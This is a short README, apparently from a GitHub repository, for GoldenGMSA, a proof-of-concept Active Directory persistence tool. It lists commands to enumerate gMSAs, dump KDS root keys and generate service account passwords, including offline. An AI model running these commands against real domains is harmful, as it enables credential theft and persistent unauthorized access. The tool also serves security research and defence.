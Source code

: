 # GoldenGMSA
PoC of GoldenGMSA - persistence techinque that abuses the gMSA's mechanism to generate password on demand.
Technical article can be found in Semperis's Blog

Usage:

Get basic information on all gMSAs in the domain (including GUID of associated KDS root key and msds-managedpasswordID):
GoldenGMSA --info

Get basic information on a specific gMSA based on the SID (including GUID of associated KDS root key and msds-managedpasswordID):
GoldenGMSA --info <gMSA SID>

Dump a specific KDS root key, specified by GUID in base64 format:
GoldenGMSA --dump-key <KDS Root Key GUID>

Generate a gMSA's password. Require Domain Admin privileges:
GoldenGMSA --generate-password --sid <gMSA SID>

Generate a gMSA's password. Require normal domain user and base64 of the relevant KDS root key:
GoldenGMSA --generate-password --sid <gMSA SID> --key <base64 RootKey>

Generate a gMSA's password. Offline mode - require base64 of the relevant KDS root key and an up to date base64 of msds-ManagedPasswordID:
GoldenGMSA --generate-password --sid <gMSA SID> --key <base64 RootKey> --passwordid <base64 ManagedPasswordID>

